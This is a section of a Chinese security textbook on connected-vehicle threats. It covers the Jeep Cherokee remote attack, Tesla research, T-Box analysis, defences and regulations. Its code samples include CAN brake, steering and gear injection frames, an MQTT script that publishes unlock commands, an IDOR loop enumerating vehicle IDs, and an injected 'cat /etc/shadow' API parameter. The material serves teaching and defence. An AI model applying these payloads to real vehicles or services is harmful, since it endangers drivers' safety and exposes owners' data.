



## 22.3 车联网安全威胁案例

车联网（Connected Vehicle）将汽车从封闭的机电系统转变为高度联网的智能终端。车辆通过蜂窝网络、Wi-Fi、蓝牙、V2X（Vehicle-to-Everything）等通道与云端、基础设施和其他车辆持续通信。这种连接在带来便利的同时，也打开了全新的攻击面。自2015年Jeep Cherokee远程攻击事件首次向公众展示"黑客控制汽车"的现实威胁以来，车联网安全已从学术研究议题演变为影响公共安全的产业级挑战。

本节通过三个经典案例——Jeep Cherokee远程攻击、Tesla安全研究和T-Box安全分析——系统剖析车联网威胁的技术本质、攻击方法论和防御策略。

### 22.3.1 车联网架构与攻击面

在深入案例之前，需要理解车联网的基本架构。只有掌握了系统全貌，才能准确定位每个漏洞在攻击链中的位置。

#### 车联网四层架构



#### 关键攻击面

| 攻击面 | 典型入口 | 攻击难度 | 潜在影响 |
|---------|---------|---------|---------|
| 远程无线接口 | 蜂窝网络、Wi-Fi、蓝牙 | 中-高 | 远程控制车辆 |
| 车载信息娱乐系统(IVI) | 浏览器、USB、App Store | 中 | 横向移动至CAN总线 |
| OBD-II诊断接口 | 物理接入车辆端口 | 低 | 直接读写CAN总线 |
| ECU/固件 | 逆向工程、调试接口 | 高 | 底层控制逻辑篡改 |
| 云端API | 移动App逆向、API枚举 | 中 | 批量控制车辆 |
| 钥匙系统 | 中继攻击、BLE嗅探 | 低-中 | 物理盗窃 |
| OTA更新通道 | MITM、签名绕过 | 高 | 植入持久化后门 |
| V2X通信 | 伪造消息、信号干扰 | 高 | 交通秩序破坏 |

---

### 22.3.2 案例一：Jeep Cherokee远程攻击

2015年Jeep Cherokee攻击是车联网安全领域的里程碑事件。安全研究人员Charlie Miller和Chris Valasek首次在公开道路上演示了对量产汽车的远程无线攻击，直接导致FCA（菲亚特克莱斯勒）召回140万辆汽车。

#### 攻击背景

Jeep Cherokee（2014款）搭载Harman制造的Uconnect车载信息娱乐系统，通过Sprint蜂窝网络接入互联网。该系统运行Linux操作系统，集成了导航、蓝牙电话、Wi-Fi热点等功能。关键设计缺陷在于：IVI系统与车辆CAN总线之间缺乏有效的网络隔离。

**车辆网络架构（攻击前）：**

```plaintext
┌─────────────────────────────────────────────────────────┐
│                    Sprint 蜂窝网络                        │
│                        │                                  │
│                   ┌────▼────┐                            │
│                   │ Uconnect │ ← IVI系统                  │
│                   │ (Linux)  │   运行D-Bus服务             │
│                   │ Port 6667│   DAB进程监听               │
│                   └────┬────┘                            │
│                        │  ← 无防火墙隔离                   │
│                   ┌────▼────┐                            │
│                   │ CAN 总线 │ ← 连接所有ECU               │
│                   └────┬────┘                            │
│              ┌─────────┼─────────┐                       │
│         ┌────▼───┐ ┌───▼────┐ ┌─▼──────┐               │
│         │ ECM引擎│ │ BCM车身│ │ ABS刹车│               │
│         │ 控制模块│ │ 控制模块│ │ 控制模块│               │
│         └────────┘ └────────┘ └────────┘               │
└─────────────────────────────────────────────────────────┘
```

#### 攻击链详解

Miller和Valasek的攻击跨越多个阶段，展示了从远程无线接入到实际控制车辆物理功能的完整过程。

**阶段一：远程侦察与初始访问**

攻击者无需任何物理接触车辆。通过Sprint网络，使用蜂窝扫描工具搜索暴露在公网上的Uconnect系统：

```bash
# Sprint网络中Uconnect系统使用固定的IP地址段
# 系统默认开放的端口包括SSH(22)、DAB(6667)等
# 通过端口扫描识别目标车辆

# 使用nmap扫描Sprint网络中的活跃Uconnect系统
nmap -sV -p 6667 <sprint-ip-range> -oN uconnect_scan.txt

# 每个Uconnect系统有一个唯一的Wi-Fi SSID
# SSID格式中嵌入了设备标识信息，可用于精确识别
```

通过蜂窝网络的IP扫描，攻击者可以在不接触车辆的情况下定位数百万辆配备Uconnect系统的车辆。

**阶段二：漏洞利用与权限获取**

Uconnect系统运行着DAB（Data Access Broker）服务，监听TCP端口6667。该服务存在严重的输入验证漏洞：

```python
# DAB服务漏洞利用原理（概念演示）
# DAB进程运行在Linux系统上，但缺乏输入过滤
# 攻击者可以通过DAB协议发送构造的D-Bus消息

import socket

# 连接到Uconnect系统的DAB服务
target_ip = "x.x.x.x"  # 目标车辆的Sprint网络IP
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((target_ip, 6667))

# DAB服务接受D-Bus格式的命令
# 通过构造特殊的D-Bus消息，可以执行任意系统命令
# 漏洞根因：DAB进程将用户输入直接传递给system()调用
payload = b"CONNECTED\n" + crafted_dbus_message
sock.send(payload)
```

利用该漏洞，攻击者获得了Uconnect系统上Linux shell的root权限。Miller和Valasek发现系统中有30多个原生Linux工具可用（如netcat、ssh等），极大地简化了后续操作。

**阶段三：横向移动至CAN总线**

获得IVI系统权限后，攻击者面临的关键挑战是如何从信息娱乐域跨越到车辆控制域。在Jeep Cherokee上，IVI系统通过SPI总线连接到DANCAN芯片（V850控制器），而该芯片同时接入CAN总线：

```plaintext
┌──────────────┐     SPI总线      ┌──────────────┐    CAN总线    ┌──────────┐
│  IVI (Linux)  │ ──────────────→ │  V850/DANCAN  │ ───────────→ │  车辆ECU  │
│  已获取root   │                 │  桥接控制器    │              │  刹车/转向 │
└──────────────┘                 └──────────────┘              └──────────┘
```

**关键发现**：V850控制器的固件可以通过IVI系统刷写。攻击者修改V850固件，使其成为CAN总线消息的透传代理，从而绕过原本的隔离机制：

```c
// V850固件修改的核心逻辑（概念描述）
// 原始固件：V850仅转发特定的CAN消息（如导航数据）
// 修改后：V850转发任意CAN消息

// 原始代码中存在写保护机制，但可以通过SPI接口
// 直接写入V850的flash存储来绕过
void can_forward_message(struct can_frame *frame) {
    // 原始代码只允许转发特定ID的消息
    // if (frame->can_id == ALLOWED_ID) { ... }
    
    // 修改后：转发所有消息
    write_to_can_bus(frame);
}
```

**阶段四：CAN总线消息注入**

一旦建立到CAN总线的通道，攻击者可以发送任意CAN消息来控制车辆功能。不同ECU通过仲裁ID（Arbitration ID）区分，每种控制功能有特定的消息格式：

```python
import can

# 连接到CAN总线（通过修改后的V850桥接）
bus = can.interface.Bus(channel='can0', bustype='socketcan')

# === 刹车控制 ===
# 仲裁ID 0x2B0 对应防抱死制动系统(ABS)
# 数据字节的最后一个字节控制刹车力度，0xFF = 最大制动力
brake_msg = can.Message(
    arbitration_id=0x2B0,
    data=[0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xFF],
    is_extended_id=False
)
bus.send(brake_msg)

# === 转向控制 ===
# 仲裁ID 0x2B4 对应电动助力转向系统(EPAS)
# 通过改变数据字节中的转向角偏移量实现转向
# 注意：低速时转向助力生效，高速时车辆稳定性系统会抵抗
steer_msg = can.Message(
    arbitration_id=0x2B4,
    data=[0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x80, 0x00],
    is_extended_id=False
)
bus.send(steer_msg)

# === 变速箱控制 ===
# 仲裁ID 0x2D0 对应变速箱ECU
# 可以在行驶中切换档位
trans_msg = can.Message(
    arbitration_id=0x2D0,
    data=[0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00],
    is_extended_id=False
)
bus.send(trans_msg)
```

**CAN消息注入的关键约束：**

| 因素 | 说明 |
|------|------|
| 消息频率 | CAN总线需要持续接收消息，缺少心跳消息会触发ECU故障码 |
| 竞争条件 | 原始ECU仍在发送合法消息，攻击消息需要更高频率才能"赢"得仲裁 |
| 物理限制 | 车速传感器、陀螺仪等会反馈实际状态，EPAS在高速时有主动回正功能 |
| 诊断模式 | 部分控制功能在正常行驶模式下受限，需要先进入诊断模式 |

#### 影响与修复

**直接后果：**
- FCA召回140万辆汽车，成为历史上因信息安全问题导致的最大规模汽车召回
- 美国国会推动《SPY Car Act》（安全先进汽车法案）立法
- 整个汽车行业开始将信息安全纳入产品开发流程

**修复措施：**

| 层级 | 修复内容 | 原理 |
|------|---------|------|
| 网络层 | 在IVI与CAN总线之间部署网络防火墙 | 阻断非授权CAN消息转发 |
| 应用层 | OTA更新修复DAB服务漏洞 | 消除初始访问入口 |
| 架构层 | 实施域隔离架构 | 安全域与非安全域物理隔离 |
| 通信层 | Sprint网络限制车辆IP的公网访问 | 缩小远程攻击面 |

**事件时间线：**

```plaintext
2014年    Miller & Valasek开始研究Uconnect系统
2015.07   发表Wired文章，公开远程攻击演示视频
2015.07   FCA发布OTA补丁和USB更新工具
2015.07   美国高速公路安全管理局(NHTSA)介入调查
2015.07   FCA召回140万辆车
2015.08   两名黑客在Black Hat USA 2015发表完整技术演讲
2016年    U.S. Senator Ed Markey推动联邦车联网安全立法
```

#### 防御视角：关键教训

1. **域隔离是生命线**：信息娱乐系统绝不能与车辆控制总线直接互通。必须通过网关（Gateway ECU）实施严格的白名单过滤。
2. **远程攻击面必须最小化**：车辆暴露在公网上的服务端口应绝对最小化，蜂窝网络应使用APN隔离。
3. **固件完整性保护**：CAN桥接控制器的固件必须有安全启动和签名验证机制，防止被篡改为消息透传代理。
4. **安全不应该是召回才能修复的**：车辆必须具备安全OTA更新能力。

---

### 22.3.3 案例二：Tesla汽车安全研究

Tesla在车联网安全领域处于特殊位置：其高度数字化的架构和积极的安全研究合作态度使其成为安全社区研究最深入的汽车品牌。从2014年至今，安全研究人员在Tesla车辆上发现了多个重大漏洞，涵盖物理攻击、无线攻击和云端攻击等多个维度。

#### 攻击面全景

Tesla车辆的攻击面远超传统汽车，原因在于其极高的数字化程度：

```plaintext
Tesla 攻击面示意：

物理攻击面：
├── USB接口（媒体播放、调试端口）
├── OBD-II诊断接口
├── 车载以太网物理接口
├── MCU/JTAG调试接口
└── 储存芯片（eMMC/NVMe）

无线攻击面：
├── Wi-Fi（802.11a/b/g/n/ac）
├── BLE 5.0（手机钥匙、胎压监测）
├── 蜂窝网络 LTE（远程控制、OTA）
├── TPMS无线信号
├── NFC（卡片钥匙）
├── 超宽带 UWB（Model 3/Y 2023+）
└── GPS信号

云端攻击面：
├── Tesla App API
├── 车主Web门户
├── OTA更新服务器
├── Fleet管理接口
├── 能源管理API
└── Tesla账户系统

车载系统攻击面：
├── MCU（信息娱乐主机）- Intel Atom / AMD Ryzen
├── Autopilot硬件 - HW3.0 FSD芯片 / HW4.0
├── 车身控制器（Body Controller）
├── 电池管理系统（BMS）
├── 制动/转向ECU
└── 车载以太网（100BASE-T1 / 1000BASE-T1）
```

#### 攻击向量一：WiFi连接与浏览器漏洞（2016）

**攻击场景：** 研究人员通过Tesla车载浏览器的Chromium内核漏洞获取MCU（Media Control Unit）系统权限。

```plaintext
攻击路径：
WiFi连接 → Chromium浏览器 → WebKit漏洞 → 渲染器RCE 
→ 沙箱逃逸 → MCU Linux系统 → 车载以太网 → CAN总线

技术要点：
- Tesla MCU运行定制Linux系统，浏览器基于Chromium
- 车载Wi-Fi可配置为连接任意热点
- 恶意WiFi热点 + DNS劫持 → 强制浏览器加载攻击页面
- 使用Chromium N-day或0-day获取渲染器代码执行
- 利用内核漏洞或沙箱逃逸获取root权限
```

这种攻击路径揭示了一个关键问题：**车载信息娱乐系统使用的通用软件栈（浏览器、操作系统）继承了整个IT领域的漏洞库**。汽车制造商必须持续跟踪上游安全更新。

#### 攻击向量二：BLE中继钥匙攻击（2022）

2022年，比利时鲁汶大学KU Leuven的研究团队发现Tesla Model 3和Model Y的BLE手机钥匙系统存在严重的中继攻击漏洞（CVE-2022-37995）。

**攻击原理：**

```plaintext
正常流程：
手机 (BLE) ←──近距离──→ 车辆 (BLE)
手机钥匙在1-2米内自动解锁

中继攻击：
手机 (BLE) ←──→ 攻击者设备A ←──互联网──→ 攻击者设备B ←──→ 车辆 (BLE)
                (靠近手机)                    (靠近车辆)

攻击者设备A/B使用BLE中继技术，将手机与车辆之间的BLE距离
在逻辑上"缩短"，使车辆误以为手机就在身边
```

**技术细节：**

```python
# BLE中继攻击的概念代码（仅用于理解防御原理）
# 实际攻击需要专用硬件（如Ubertooth、nRF52840 Dongle）

from bleak import BleakScanner, BleakClient
import asyncio

async def relay_ble_signal(target_mac):
    """中继BLE广告帧的概念实现"""
    # 步骤1：扫描并捕获车辆的BLE挑战帧
    scanner = BleakScanner()
    devices = await scanner.discover()
    
    # 步骤2：将挑战帧通过网络转发给靠近手机的同伙设备
    challenge = capture_advertisement(target_mac)
    send_over_network(challenge)  # → 设备A
    
    # 步骤3：同伙设备将手机的响应帧转发回来
    response = receive_over_network()  # ← 设备A
    
    # 步骤4：将响应帧重放给车辆
    replay_advertisement(target_mac, response)
```

**Tesla的修复：** 在2022年秋季的OTA更新中，Tesla将BLE钥匙的距离测量从单纯的信号强度（RSSI）改为UWB（超宽带）测距。UWB使用飞行时间（ToF）测量，中继攻击引入的额外延迟可以被检测到。较早的车型则通过增加BLE钥匙的PIN码验证层来加固。

#### 攻击向量三：固件提取与分析（2018-2020）

安全研究人员通过物理拆解和芯片级分析，提取了Tesla MCU的固件镜像进行深度分析：

```python
# 固件分析工作流（概念描述）
# 研究人员通常使用以下工具链

# 1. 固件提取
# 方法A：通过eMMC/NVMe芯片读取器直接读取存储芯片
# 方法B：通过JTAG/SWD调试接口dump内存
# 方法C：通过OTA更新包拦截获取固件

# 2. 固件解包
# 使用binwalk提取文件系统
import subprocess
subprocess.run(["binwalk", "-e", "mcu_firmware.img"])

# 3. 静态分析
# 使用Ghidra/IDA Pro逆向关键二进制
# 重点关注：认证逻辑、密钥存储、通信协议

# 4. 密钥和凭据提取
# 在固件中搜索硬编码密钥、API Token、证书
import re
with open("extracted_binary", "rb") as f:
    data = f.read()
    # 搜索可能的AES密钥（32字节对齐的高熵数据）
    # 搜索PEM格式的证书和私钥
    pem_keys = re.findall(rb'-----BEGIN.*?-----', data)
```

**研究发现包括：**
- MCU中发现多个硬编码的API凭据和共享密钥
- 固件更新过程中签名验证存在竞态条件
- 车载以太网通信缺乏完整性保护（无MACsec）
- Autopilot ECU与MCU之间的通信使用共享密钥而非互认证

#### 攻击向量四：远程代码执行链（2020-2023）

多项研究展示了通过Tesla云端服务入侵车辆的完整攻击链：

```plaintext
# 端到端远程攻击链

阶段1 - 云端侦察：
├── 逆向Tesla App获取API端点
├── 分析OAuth认证流程
└── 识别API版本差异

阶段2 - 初始访问：
├── 利用Tesla账户系统漏洞（如：密码重置逻辑缺陷）
├── 利用API中的IDOR漏洞访问其他车主数据
└── 获取有效的Bearer Token

阶段3 - 横向移动：
├── 利用Fleet管理API批量查询车辆
├── 识别未受额外保护的车辆
└── 获取车辆控制命令权限

阶段4 - 车辆控制：
├── 通过蜂窝网络向车辆下发命令
├── 远程解锁、启动、定位
└── 在具备写权限的API中执行命令注入
```

#### Tesla的安全响应体系

Tesla建立了业界领先的车辆安全响应机制：

| 安全措施 | 实施详情 |
|---------|---------|
| 漏洞赏金计划 | Pwn2Own汽车专项赛，最高奖金50万美元+一辆Model 3 |
| OTA安全更新 | 从发现到推送补丁，周期可短至数天 |
| 安全启动链 | 每级固件验证下一级的数字签名 |
| 网络分段 | 车载以太网实施VLAN隔离，域间通信通过网关过滤 |
| CAN消息认证 | 新车型引入MAC认证的CAN帧，防止消息注入 |
| 入侵检测 | 车载IDS监控异常CAN流量和系统行为 |
| 安全研究合作 | 主动邀请安全研究人员参与测试 |

#### 从Tesla案例提炼的攻防模式



---

### 22.3.4 案例三：车载T-Box安全分析

T-Box（Telematics Box，远程信息处理单元）是车联网的通信中枢。它连接车辆内部网络与外部蜂窝网络，实现远程诊断、远程控制（开锁/启动/空调）、OTA更新通道、紧急呼叫（eCall）等功能。由于T-Box同时接入蜂窝网络和CAN总线，它实质上是车辆最大的远程攻击面入口。

#### T-Box架构与攻击面

```plaintext
T-Box内部架构：

┌──────────────────────────────────────────────┐
│                    T-Box / TCU                 │
│                                                │
│  ┌──────────┐  ┌──────────┐  ┌──────────┐    │
│  │ 主控SoC  │  │ 蜂窝模组 │  │ GNSS模组 │    │
│  │ (ARM/Linux)│  │ (4G/5G)  │  │ (GPS/北斗)│    │
│  └────┬─────┘  └────┬─────┘  └──────────┘    │
│       │              │                          │
│  ┌────▼──────────────▼────┐                    │
│  │   安全单元 (Secure Element) │                 │
│  │   或 eSIM                │                    │
│  └─────────────────────────┘                    │
│       │                                         │
│  ┌────▼────┐  ┌──────────┐                     │
│  │ CAN收发器│  │ 以太网PHY│                     │
│  └────┬────┘  └────┬─────┘                     │
└───────┼─────────────┼──────────────────────────┘
        │             │
   CAN总线        车载以太网
   (车辆ECU)      (IVI/域控)
```

**T-Box的三大攻击面：**

| 攻击面 | 具体入口 | 风险等级 |
|--------|---------|---------|
| 远程通信 | 蜂窝网络接口、SMS解析、OTA更新 | 高 |
| 本地接口 | UART调试口、JTAG、CAN总线、USB | 高 |
| 固件/软件 | 系统服务漏洞、硬编码凭据、认证缺陷 | 高 |

#### 典型漏洞类别

**1. 固件层面漏洞**

```python
# T-Box固件分析中的常见发现

# 类型1：硬编码凭据
# 固件中直接写入了云平台的API密钥、MQTT凭据等
# 分析方法：strings命令 + 正则匹配
import re

firmware_strings = open("firmware_strings.txt").readlines()

patterns = {
    "API Key": r'(?i)(api[_-]?key|apikey)\s*[=:]\s*["\']?([a-zA-Z0-9]{20,})',
    "Password": r'(?i)(password|passwd|pwd)\s*[=:]\s*["\']?([^\s"\']+)',
    "MQTT URI": r'mqtts?://[^\s]+',
    "Private Key": r'-----BEGIN\s+(RSA\s+)?PRIVATE KEY-----',
    "AWS Key": r'AKIA[0-9A-Z]{16}',
    "Token": r'(?i)(token|bearer)\s*[=:]\s*["\']?([a-zA-Z0-9\-_\.]{20,})',
}

for line in firmware_strings:
    for name, pattern in patterns.items():
        matches = re.findall(pattern, line)
        if matches:
            print(f"[!] {name}: {matches}")

# 类型2：不安全的启动链
# 缺少Secure Boot配置，固件可被替换为任意镜像
# 检测方法：读取SoC的eFuse配置寄存器
# 如果SECURE_BOOT位未设置，则设备启动不验证签名

# 类型3：调试接口暴露
# UART控制台直接暴露root shell
# JTAG/SWD端口未禁用
```

**2. 通信层面漏洞**

```python
# T-Box与云端通信安全分析

# 场景1：MQTT通信缺乏认证
# 某些T-Box使用MQTT协议与云端通信
# 如果MQTT broker不要求客户端证书，攻击者可以：
# - 订阅车辆状态主题，获取位置、车速等信息
# - 发布命令主题，向车辆下发控制指令

import paho.mqtt.client as mqtt

def exploit_mqtt(broker_host, vehicle_id):
    client = mqtt.Client()
    # 如果broker无需认证
    client.connect(broker_host, 1883)
    
    # 订阅车辆状态
    client.subscribe(f"vehicles/{vehicle_id}/status")
    # 订阅命令响应
    client.subscribe(f"vehicles/{vehicle_id}/cmd/response")
    
    # 发送远程开锁命令
    client.publish(f"vehicles/{vehicle_id}/cmd", 
                   '{"action": "unlock_doors"}')

# 场景2：OTA更新通道MITM
# 如果T-Box在更新时未验证服务器证书
# 或使用了不安全的HTTP协议下载固件包
# 攻击者可以替换更新包

# 场景3：SMS指令注入
# 部分T-Box支持通过SMS接收控制指令
# 如果SMS解析逻辑存在注入漏洞
# 可以通过发送构造的短信执行任意命令
```

**3. API层面漏洞**

```python
# T-Box云端API常见安全缺陷

import requests

# 缺陷1：缺乏认证
# 远程控制API不需要任何身份验证
response = requests.post(
    "https://api.car-manufacturer.com/v1/vehicles/VIN123/unlock",
    headers={"Content-Type": "application/json"}
)
# 如果返回200 OK，说明API未验证调用者身份

# 缺陷2：IDOR（不安全的直接对象引用）
# 使用自己的合法Token，通过遍历车辆ID访问其他用户车辆
for vid in range(100000, 200000):
    resp = requests.get(
        f"https://api.car-manufacturer.com/v1/vehicles/{vid}",
        headers={"Authorization": f"Bearer {legitimate_token}"}
    )
    if resp.status_code == 200:
        print(f"[!] 可访问车辆 {vid}: {resp.json()}")

# 缺陷3：缺乏速率限制
# 批量枚举车辆信息不会被封禁
# 可以快速收集大量车主的个人信息和车辆位置

# 缺陷4：命令注入
# 如果API将参数直接传递给T-Box命令
resp = requests.post(
    "https://api.car-manufacturer.com/v1/vehicles/123/diagnostic",
    json={"command": "read_dtc; cat /etc/shadow"}
)
```

#### T-Box安全威胁模型



#### T-Box安全防御最佳实践

| 防御层级 | 具体措施 | 实施标准 |
|---------|---------|---------|
| 硬件层 | 安全启动(eFuse)、调试口禁用、Secure Element | ISO 21434硬件安全要求 |
| 固件层 | 代码签名、加密存储密钥、最小化系统镜像 | AUTOSAR SecOC标准 |
| 通信层 | mTLS双向认证、证书钉扎、消息签名 | TLS 1.3 + X.509证书 |
| API层 | OAuth 2.0认证、RBAC授权、速率限制、输入验证 | OWASP API Security Top 10 |
| 监控层 | 异常行为检测、审计日志、实时告警 | UN R155法规要求 |
| 更新层 | 安全OTA、回滚保护、更新包签名验证 | Uptane安全更新框架 |

---

### 22.3.5 车联网攻击的共性规律

通过以上三个案例，可以提炼出车联网安全威胁的共性规律：

#### 五条攻击定理

1. **远程可达性定理**：任何暴露在网络上的接口最终都会被发现和利用。车辆的蜂窝网络接口、Wi-Fi热点、蓝牙服务都是潜在入口。

2. **域间穿越定理**：攻击者的最终目标是跨越安全域边界。从信息娱乐域到车辆控制域、从云端到车端、从无线接口到CAN总线，每一次域间穿越都需要额外的安全控制。

3. **软件栈继承定理**：车载系统使用的通用软件组件（Linux内核、Chromium、OpenSSL等）继承了整个IT世界的漏洞库。汽车制造商必须建立上游漏洞跟踪机制。

4. **规模化攻击定理**：车联网云端API的一个漏洞可以同时影响所有联网车辆。与传统汽车安全不同，车联网威胁具有网络攻击的规模效应。

5. **生命周期定理**：车辆使用周期（10-15年）远超IT设备（2-5年），安全机制必须在长达十余年的生命周期内持续有效。

#### 攻击面演变趋势

```plaintext
2015-2018  攻击面以物理接入和车载系统为主
           └── USB、OBD-II、WiFi、浏览器漏洞

2018-2021  云端API和移动App成为主要入口
           └── 认证绕过、IDOR、API滥用

2021-2024  BLE/UWB钥匙系统、供应链攻击兴起
           └── 中继攻击、固件供应链污染

2024+      V2X通信、自动驾驶AI模型攻击
           └── 对抗样本、V2X消息伪造、模型逆向
```

---

### 22.3.6 车联网安全评估方法论

针对车联网系统的安全评估应遵循系统化方法：

#### 评估流程

```plaintext
阶段1：资产识别与威胁建模
├── 绘制完整的系统架构图
├── 识别所有通信接口和数据流
├── 使用STRIDE模型分析威胁
└── 确定关键资产和攻击优先级

阶段2：远程攻击面评估
├── 蜂窝网络服务枚举
├── Wi-Fi/BLE服务发现
├── 移动App逆向工程
├── 云端API安全测试
└── OTA更新机制审计

阶段3：本地攻击面评估
├── 固件提取与逆向
├── UART/JTAG调试接口测试
├── CAN总线协议分析
├── 车载以太网安全测试
└── 物理防篡改机制评估

阶段4：跨域攻击链构建
├── 验证域隔离有效性
├── 尝试从IVI域穿越到控制域
├── 从云端到车端的端到端攻击链
└── 横向移动路径分析

阶段5：报告与修复验证
├── 漏洞风险评级（CVSS 3.1）
├── 攻击可行性评估
├── 修复方案建议
└── 补丁回归测试
```

#### 常用工具

| 工具 | 用途 | 适用场景 |
|------|------|---------|
| `python-can` | CAN总线收发与分析 | CAN协议逆向、消息注入 |
| `SavvyCAN` | CAN总线可视化分析 | CAN消息ID映射、DBC解析 |
| `caringcaribou` | CAN总线安全测试工具 | 服务发现、UDS模糊测试 |
| `Firmwalker` | 固件文件系统分析 | 提取凭据、识别硬编码密钥 |
| `Binwalk` | 固件解包与提取 | 固件逆向第一步 |
| `Ghidra` | 二进制逆向分析 | ECU固件深度分析 |
| `Frida` | 动态插桩框架 | 移动App和车载应用hook |
| `Ubertooth` | BLE嗅探与分析 | BLE钥匙协议分析 |
| `Wireshark` | 网络协议分析 | 车载以太网、MQTT流量分析 |
| `nmap` | 网络扫描 | 车载网络服务枚举 |

---

### 22.3.7 行业安全标准与法规

车联网安全已从自愿性最佳实践演变为强制性法规要求：

| 标准/法规 | 发布机构 | 核心要求 |
|----------|---------|---------|
| UN R155 | UNECE | 车辆网络安全管理体系（CSMS）强制认证 |
| UN R156 | UNECE | 软件更新管理体系（SUMS）强制认证 |
| ISO/SAE 21434 | ISO/SAE | 道路车辆网络安全工程标准 |
| AUTOSAR SecOC | AUTOSAR | 车载通信安全认证方案 |
| Uptane | Uptane Alliance | 软件OTA安全更新框架 |
| GB/T 40856 | 中国国标 | 车载信息交互系统信息安全技术要求 |
| T/CSAE 53 | 中国汽车工程学会 | 合作式智能运输系统V2X通信安全 |

**关键合规要求：**
- 制造商必须建立网络安全管理体系（CSMS），覆盖车辆全生命周期
- 车辆型式认证需要提供网络安全合规证据
- 必须具备安全事件监测和响应能力
- OTA更新必须有完整的签名验证和回滚保护机制

---

### 22.3.8 本节小结

三个案例分别代表了车联网安全研究的三个典型维度：

| 案例 | 攻击维度 | 核心教训 |
|------|---------|---------|
| Jeep Cherokee | 远程无线 → CAN总线 | 域隔离是车辆安全的生命线 |
| Tesla多向量研究 | 多入口综合攻击 | 高数字化带来广攻击面，需体系化防御 |
| T-Box安全分析 | 通信中枢全面风险 | T-Box作为车联网枢纽需要纵深防御 |

车联网安全的核心认知：

1. **汽车安全正在从物理安全向信息安全转型**——攻击者不需要撬开车门，只需一个网络漏洞。
2. **车辆是安全攸关系统**——车联网漏洞的后果不仅是数据泄露，更可能是人身伤亡。
3. **安全是一个持续过程**——车辆10年以上的使用周期要求制造商建立持续的安全监测和更新能力。
4. **防御需要纵深**——从硬件安全启动到云端API防护，每一层都需要独立的安全控制。
